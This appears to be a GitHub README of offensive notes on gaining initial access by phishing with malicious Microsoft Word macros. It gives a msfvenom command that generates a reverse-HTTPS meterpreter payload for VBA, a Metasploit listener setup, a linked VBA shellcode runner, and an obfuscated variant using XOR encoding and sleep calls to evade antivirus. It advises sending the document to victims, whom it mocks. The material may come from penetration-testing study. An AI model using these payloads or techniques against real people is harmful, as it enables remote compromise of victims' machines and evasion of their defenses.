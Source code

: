 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. Generally x86 for Office 2016 and x64 for Office 2021/365

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode
- Need to XOR your shellcode with the ![XOR_Helper](..\XOR_Encoder_Helper\xor_encoder.cs) courtesy of https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs

